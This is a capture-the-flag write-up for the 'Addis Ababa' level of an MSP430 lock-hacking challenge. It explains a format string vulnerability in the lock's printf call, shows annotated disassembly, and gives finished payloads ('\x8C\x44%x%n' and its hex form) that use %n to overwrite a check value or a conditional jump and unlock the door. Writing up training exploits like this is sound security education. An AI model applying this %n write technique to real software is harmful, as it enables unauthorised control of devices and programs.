 # Addis Ababa

## Challenge overview

Lockitall LockIT Pro, rev b.03
- We have verified passwords can not be too long.
- Usernames are printed back to the user for verification.
- This lock is attached the the LockIT Pro HSM-1.

## Solution

### Solution overview

This solution utilizes a format string vulnerability to inject a code fault at a critical point in the authentication algorithm.

### Analysis

The device requires an input string in the format &lt;username&gt;:&lt;password&gt;.  The total length of the input string, including null terminator, may not be longer than 20 characters.

On analysis of the disassembled code, the input is written back out using printf().  The user input is passed to printf() as the format string, which makes this a format string vulnerability.  This implementation of printf() supports %s, %x and %n.  It does not support '\\' escapes, '$' parameters, or any other parameters.  The limited parameter options combined with the limited input size makes the format string vulnerability unsuitable for writing arbitrary values.

There are a limited number of things that we can do with this format string vulnerability.  We can provide an address to overwrite within the input string, and %x can be used to consume unwanted parameters so that %n can be aligned with the address parameter.  However, %n can only be used to write small values.  We don't have appropriate parameters or input string length to build output characters up to any arbitrary number for %n to write.  So while we can aim, we are very limited in what we can write.

### Attack

Perhaps we can clobber a single instruction, as in a fault injection attack, and affect the flow of execution.  The following section of code includes a conditional jump just before the call to unlock_door().  If we knock out either the check value at 0x448C or the conditional jump at 0x448E, we can unlock the door despite failing the authentication check.

	447c:  b012 c845      call	#0x45c8 <printf>            ; Execute format string here.
	4480:  2153           incd	sp
	4482:  3f40 0a00      mov	#0xa, r15
	4486:  b012 5045      call	#0x4550 <putchar>
	448a:  8193 0000      tst	0x0(sp)                     ; Overwrite 0x0000,
	448e:  0324           jz	#0x4496 <main+0x5e>         ; ...or overwrite conditional jump.
	4490:  b012 da44      call	#0x44da <unlock_door>       ; Profit here either way.
	4494:  053c           jmp	#0x44a0 <main+0x68>
	4496:  3012 1f45      push	#0x451f "That entry is not valid."
	449a:  b012 c845      call	#0x45c8 <printf>
	449e:  2153           incd	sp
	44a0:  0f43           clr	r15
	44a2:  3150 1600      add	#0x16, sp
	44a6 <__stop_progExec__>
	44a6:  32d0 f000      bis	#0xf0, sr
	44aa:  fd3f           jmp	#0x44a6 <__stop_progExec__+0x0>

Just ignore for a moment whether or not this device has any code protection, or is running code from flash.  Let's try it anyway.

The following input strings should implement our attack:

	"\x8C\x44%x%n" or "\x8E\x44%x%n"

Broken down as follows:
* \x8C\x44 is the address of the check value that we want to overwrite (solution 1).
* \x8E\x44 is the address of the conditional jump that we want to overwrite (solution 2).
* %x consumes a parameter, so that %n will align with the address at the beginning of the input string.
* %n writes out the number of characters written so far (0x0002).

The final solutions, provided as hex input: 8C442578256E or 8E442578256E
